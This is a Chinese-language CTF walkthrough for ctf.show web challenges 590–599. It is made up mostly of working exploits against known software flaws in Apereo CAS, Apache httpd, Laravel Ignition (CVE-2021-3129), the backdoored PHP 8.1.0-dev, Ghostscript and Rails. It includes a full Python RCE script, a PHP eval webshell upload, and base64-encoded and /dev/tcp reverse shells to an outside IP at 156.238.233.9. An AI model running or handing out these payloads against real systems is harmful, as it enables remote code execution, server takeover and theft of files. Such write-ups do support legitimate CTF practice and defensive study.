Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1


```

访问`/api/shell.jsp?pwd=023&i=cat /root/flag`

## web590

[工具](https://github.com/vulhub/Apereo-CAS-Attack/releases) Apereo CAS 4.1反序列化RCE

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNTYuMjM4LjIzMy45Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}"
```

```http
POST /cas/login;jsessionid=1CB1647A3EDE62304C1E4F9DF9206701?locale=zh_CN HTTP/1.1
Host: 7fcaa321-4d4a-4757-a142-a0897ccfe0da.challenge.ctf.show
Connection: keep-alive
Content-Length: 1296
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://7fcaa321-4d4a-4757-a142-a0897ccfe0da.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://7fcaa321-4d4a-4757-a142-a0897ccfe0da.challenge.ctf.show/cas/login?locale=zh_CN
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=1CB1647A3EDE62304C1E4F9DF9206701; cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1; org.springframework.web.servlet.i18n.CookieLocaleResolver.LOCALE=zh_CN

username=admin&password=admin&lt=LT-2-tZDMa7fNVBP3t3w9QRaAUdKx1Cx93r-cas01.example.org&execution=abff7780-c0d5-4c1c-812e-9ee4f4e83891_AAAAIgAAABCafdJt5jXiaWLcxB7okD7MAAAABmFlczEyOGuCfSl%2BcLjGweI%2BGlN%2FZYP2SD5KxthOz1r2mQ8BJyxjBYcG8lMMvN24oYr4vLrirYHR4WsQbSkSdUzOMBR91hh0twSvhdARZRlHXv39ZfuJv9P53YROthhtgAtMYtsehYiVJozuYcb8PDfWJjMTuVS8%2Bul%2Ff06J4sQ2b0UxL2XqFu7MVa0Jks%2BKCaY6%2FjqMnHXsJ2DbJ0T3%2FAArtYVfQ9jT56in4y1SKOLVlAQKybuhyQx3f3no0ApkartJORTM4529crv4g%2B6vdDZo%2BJK5mjzq4G4q2GYWMWeyUHMFV8GKkJAElDGjgU2Fgh4C4h2Qg0NAPA2tnrH%2BW2U0yin%2F9TILzw8Hzuos8esX%2BaQq9oHPNIxiBCi5zeFjwGsAeirwFRbxvAh6Wyc7QYvzfKPbmuPCFOnkK55mSWHEvvazG7bY5AZxLYzrLNI78kCO204IwKgkx1MXCIxmyfNpa%2BhRmnmFmMyW%2FpuUQUJmhwjRxwctDu%2FKETnzPN9rB%2BWIpxKcwWFFBw4BB8uZyZSja5yvNAm9q1o59u77JVaeQLbYCVPMu7ekTrNh2A6jXDP5RnXBGGVrxZPnXoQYu8CoteNVC%2FU3Y6qrAEMnsts5CfXd9hMmtVvCE%2BgkcrJCf1Sam3kiY0tWffKkd2MmZyMga7f8PDP71YsN8GMu9wl2bGlNcw%2BQa%2BxyjiHDtWwf4o%2BCetj9eCJr%2FiiFteOpOrk9Dg29hOVN9Nj%2FdValCF8Vby1G2xoi%2Fq0lm9HD6fD1GmpFTjf5Ww1sdUnSPyDIVeUuGcH1uEEEbFLQtylFKWq%2Bfypqi9sr2vhkHF01mvgaufJgelk9ZNPJislj%2FBWMHZVa7zTCysDZhYulMSDMFMB6ivRozL8HbxLx2cgpKyHEd%2BJLs1%2B2cXg73XHNvWmVPLh7lT3%2B76IJwwPEi01ZedPm3ojXAojKAPAO3%2FFGbG8MzWjWpm06JUOFD%2BdXnVJng0rcD01WJSuR5j3uZ8OLzT63x5P4gnIfH0QeHAJd4TSkeXZI417lHbpV%2FH1V3ZiHBosbKVHnY5xWyPK8ZkuMFkI75W1rSkmn6KLwwNTmbsyzUzCKLCW%2BLryyMyGsI7IOsYQhV0L6sjWTCrazTAtf1uIKLZ3TXTzUxQMAyT97Myu4B14aMApYFdLSSaDe1RgLIMe34Rf1wDJFhaVJRSBslOea6mMAGb9Zi4eFVNwMd8ewJ%2B1WL4wO9dOkL1Bvaqb4NTmstWoKEaBiG7cadodEu2F5rbbvBu8G3wE1VkTJrEH3HJWha%2Fd8wcR6xULniM67BF98sJ%2BnTjSUnPV0Sblrh%2FctPLZjUScO3Nc5%2F9XWpV55HqNffwazJ8HKSiV3P7vOe4KWTmW3kXYUpmaJhCjpxQ9zf9MWi3zlkryNofoehpkjku2yOloLJSo3X0RzznT%2FAb3yi6VvTOaCO85HG1nY2jJoEwiSS3RZ178BGYTnkyzF8J%2FcSzUkLs3ebAnd%2B8L%2Fy%2BxBMkDp%2B0pLuE4%2B0QEhb80zMHid2OBSAaAfoBEo%2BlrrpMrKzKYc3x7ARAZ85dsYftQspgIEMpVIMDI44AIAvZyp1sM3lPtO%2FgjCxZLPiGOacR%2BCyY8QNopAvkoImG2n5IghvjrZYHf50Pqn20AtWv1prtqX2jkBlxIcwZDt58ix0%2FtVyl8fdFazZ0fcBDbjUi35WU9jSGi72CQGBmRu6V8UtY72bsaEjj4ztbTBaUrkQH0edTDK0ET2iOQRUNyyu6ADA1rpdfCjxr1grAk32yc9xUH6hV7aDghlVDkOiuDBCYz1ZkyfWATGqaAj%2FBmdBBwLBhnjxsX74DHoj0O%2Foz07DnXGHLvG7ZHNbhDia5cnnQ4CushfzeCS4f%2FPw7KVV1UFJD%2BtAcS2XzuiJS430pxskuxxLv87AlLMWOcw2t77%2BJmZeapdj86%2Fl%2FPI11f%2BVGTMqBen7MyHWaNq0WbVoe0pbNjYxRP66nz8Hm67jE5ZYKe78QoR4U%2BmpZiXJlWWfhqpmu2S2FPorUw6Qe12laMRy3PkHzpeDM7%2BvrImFaAFn1ft6o2u%2Bg5UfgVQt7Hc3UnFwfisTaZYMJgPx%2FjGw6TXwldNxZev&_eventId=submit&submit=%E7%99%BB%E5%BD%95
```

然后就可以了

## web591

Apache HTTPD的`2.4.0~2.4.29`版本中存在一个解析漏洞，在解析PHP时，`1.php\x0a`将被按照PHP后缀进行解析，上传的时候右键插入一个`0a`即可



然后访问`/shell.php%0a`

## web592

httpd 多后缀解析漏洞，可能之前来说很难，但是现在你给我黑盒我都能做

```http
POST / HTTP/1.1
Host: 20633b19-aa82-449f-b551-9a71f4df198b.challenge.ctf.show
Connection: keep-alive
Content-Length: 237
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: https://20633b19-aa82-449f-b551-9a71f4df198b.challenge.ctf.show
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBko2qyVuIlWXYqWP
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://20633b19-aa82-449f-b551-9a71f4df198b.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1

------WebKitFormBoundaryBko2qyVuIlWXYqWP
Content-Disposition: form-data; name="file"; filename="shell.php.jpg"
Content-Type: application/octet-stream

<?php
phpinfo();
@eval($_POST[1]);
?>
------WebKitFormBoundaryBko2qyVuIlWXYqWP--

```

访问`/shell.php.jpg`

## Web593

Apache2 SSI远程命令执行漏洞，好久之前在buu做过，直接打SSI注入，文件后缀为`shtml`

```shtml
<!--#exec cmd="ls /" -->
```

## web594

CVE-2021-3129

```python
#!/usr/bin/python3

import requests as req
import os, uuid


class Exp:
    __gadget_chains = {
        "monolog_rce1": r""" php -d 'phar.readonly=0' phpggc/phpggc monolog/rce1 system %s --phar phar -o php://output | base64 -w0 | python3 -c "import sys;print(''.join(['=' + hex(ord(i))[2:].zfill(2) + '=00' for i in sys.stdin.read()]).upper())" > payload.txt""",
        "monolog_rce2": r""" php -d 'phar.readonly=0' phpggc/phpggc monolog/rce2 system %s --phar phar -o php://output | base64 -w0 | python3 -c "import sys;print(''.join(['=' + hex(ord(i))[2:].zfill(2) + '=00' for i in sys.stdin.read()]).upper())" > payload.txt""",
        "monolog_rce3": r""" php -d 'phar.readonly=0' phpggc/phpggc monolog/rce3 system %s --phar phar -o php://output | base64 -w0 | python3 -c "import sys;print(''.join(['=' + hex(ord(i))[2:].zfill(2) + '=00' for i in sys.stdin.read()]).upper())" > payload.txt""",
    }  # phpggc链集合，暂时添加rce1后续再添加其他增强通杀能力

    __delimiter_len = 8  # 定界符长度

    def __vul_check(self):
        resp = req.get(self.__url, verify=False)
        if resp.status_code != 405 and "laravel" not in resp.text:
            return False
        return True

    def __payload_send(self, payload):
        header = {
            "Accept": "application/json"
        }
        data = {
            "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
            "parameters": {
                "variableName": "cve20213129",
                "viewFile": ""
            }
        }
        data["parameters"]["viewFile"] = payload
        resp = req.post(self.__url, headers=header, json=data, verify=False)
        # print(resp.text)
        return resp

    def __command_handler(self, command):
        """
        因为用户命令要注入到payload生成的命令中，为了防止影响结构，所以进行一些处理。
        """

        self.__delimiter = str(uuid.uuid1())[:self.__delimiter_len]  # 定界符用于定位页面中命令执行结果的位置。
        # print(delimiter)
        command = "echo %s && %s && echo %s" % (self.__delimiter, command, self.__delimiter)
        # print(command)

        escaped_chars = [' ', '&', '|']  # 我只想到这么多，可自行添加。
        for c in escaped_chars:
            command = command.replace(c, '\\' + c)
        # print(command)
        return command

    def __clear_log(self):
        return self.__payload_send(
            "php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log")

    def __gen_payload(self, gadget_chain):
        gen_shell = self.__gadget_chains[gadget_chain] % (self.__command)
        # print(gen_shell)
        os.system(gen_shell)
        with open('payload.txt', 'r') as f:
            payload = f.read().replace('\n', '') + 'a'  # 添加一个字符使得两个完整的payload总是只有一个可以正常解码
        os.system("rm payload.txt")
        # print(payload)
        return payload

    def __decode_log(self):
        return self.__payload_send(
            "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log")

    def __unserialize_log(self):
        return self.__payload_send("phar://../storage/logs/laravel.log/test.txt")

    def __rce(self):
        text = self.__unserialize_log().text
        # print(text)

        echo_find = text.find(self.__delimiter)
        # print(echo_find)
        if echo_find >= 0:
            return text[echo_find + self.__delimiter_len + 1: text.find(self.__delimiter, echo_find + 1)]
        else:
            return "[-] RCE echo is not found."

    def exp(self):
        for gadget_chain in self.__gadget_chains.keys():
            print("[*] Try to use %s for exploitation." % (gadget_chain))
            self.__clear_log()
            self.__clear_log()
            self.__payload_send('a' * 2)
            self.__payload_send(self.__gen_payload(gadget_chain))
            self.__decode_log()
            print("[*] Result:")
            print(self.__rce())

    def __init__(self, target, command):
        self.target = target
        self.__url = req.compat.urljoin(target, "_ignition/execute-solution")
        self.__command = self.__command_handler(command)
        if not self.__vul_check():
            print("[-] [%s] is seems not vulnerable." % (self.target))
            print("[*] You can also call obj.exp() to force an attack.")
        else:
            self.exp()


def main():
    Exp("http://d6dd8126-fc54-4e61-8f63-9ca297e73c5d.challenge.ctf.show/", "cat /etc/passwd")


if __name__ == '__main__':
    main()
```

还要用phpggc在同一目录才可以，给了权限之后直接干就完事了

## web595

```c
if (strstr(Z_STRVAL_P(enc), "zerodium")) {
    zend_try {
        zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
    } zend_end_try();
}
```

检查`enc`里面是否有固定的值`zerodium`，从第九个字符开始当成php代码执行，**PHP 8.1.0-dev**

```http
GET / HTTP/1.1
Host: 1783288b-d365-4d15-9514-69d3bcec3df3.challenge.ctf.show
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
User-Agentt: zerodiumsystem("cat /f*");
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1
sec-fetch-user: ?1
referer: https://1783288b-d365-4d15-9514-69d3bcec3df3.challenge.ctf.show/


```

## web596

**Python PIL GhostButt** 把下面的文件保存为png来上传即可RCE

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100


/size_from  10000      def
/size_step    500      def
/size_to   65000      def
/enlarge    1000      def

%/bigarr 65000 array def

0
size_from size_step size_to {
    pop
    1 add
} for

/buffercount exch def

/buffersizes buffercount array def


0
size_from size_step size_to {
    buffersizes exch 2 index exch put
    1 add
} for
pop

/buffers buffercount array def

0 1 buffercount 1 sub {
    /ind exch def
    buffersizes ind get /cursize exch def
    cursize string /curbuf exch def
    buffers ind curbuf put
    cursize 16 sub 1 cursize 1 sub {
        curbuf exch 255 put
    } for
} for


/buffersearchvars [0 0 0 0 0] def
/sdevice [0] def

enlarge array aload

{
    .eqproc
    buffersearchvars 0 buffersearchvars 0 get 1 add put
    buffersearchvars 1 0 put
    buffersearchvars 2 0 put
    buffercount {
        buffers buffersearchvars 1 get get
        buffersizes buffersearchvars 1 get get
        16 sub get
        254 le {
            buffersearchvars 2 1 put
            buffersearchvars 3 buffers buffersearchvars 1 get get put
            buffersearchvars 4 buffersizes buffersearchvars 1 get get 16 sub put
        } if
        buffersearchvars 1 buffersearchvars 1 get 1 add put
    } repeat

    buffersearchvars 2 get 1 ge {
        exit
    } if
    %(.) print
} loop

.eqproc
.eqproc
.eqproc
sdevice 0
currentdevice
buffersearchvars 3 get buffersearchvars 4 get 16#7e put
buffersearchvars 3 get buffersearchvars 4 get 1 add 16#12 put
buffersearchvars 3 get buffersearchvars 4 get 5 add 16#ff put
put


buffersearchvars 0 get array aload

sdevice 0 get
16#3e8 0 put

sdevice 0 get
16#3b0 0 put

sdevice 0 get
16#3f0 0 put


currentdevice null false mark /OutputFile (%pipe%bash -c "bash -i>& /dev/tcp/156.238.233.9/9999 0>&1")
.putdeviceparams
1 true .outputpage
.rsdparams
%{ } loop
0 0 .quit
%asdf
```

## web597

 CVE-2018-3760

```
/assets/file:%2f%2f/etc/passwd
```

得到回显

```
/etc/passwd is no longer under a load path: /usr/src/blog/app/assets/config, /usr/src/blog/app/assets/images, /usr/src/blog/app/assets/javascripts, /usr/src/blog/app/assets/stylesheets, /usr/src/blog/vendor/assets/javascripts, /usr/src/blog/vendor/assets/stylesheets, /usr/local/bundle/gems/jquery-rails-4.3.3/vendor/assets/javascripts, /usr/local/bundle/gems/coffee-rails-4.2.2/lib/assets/javascripts, /usr/local/bundle/gems/actioncable-5.0.7/lib/assets/compiled, /usr/local/bundle/gems/turbolinks-source-5.2.0/lib/assets/javascripts
```

那把路径给合上，并且用双层url编码绕过

```
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

## web598

CVE-2019-5418

```http
GET /robots HTTP/1.1
Host: b450f3cb-7357-4962-b2d3-9a5c022fbac9.challenge.ctf.show
Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: ../../../../../../../../etc/passwd{{
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs; SL_G_WPT_TO=zh; SL_GWPT_Show_Hide_tmp=1; SL_wptGlobTipTmp=1
If-Modified-Since: Mon, 18 Mar 2019 20:48:59 GMT


```

## web599

CVE-2017-17405

```
pip install pyftpdlib
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

然后打命令就可以了

```
nc -lvnp 9999

/download?uri=ftp://156.238.233.9:2121/&file=|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xNTYuMjM4LjIzMy45Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}'
```


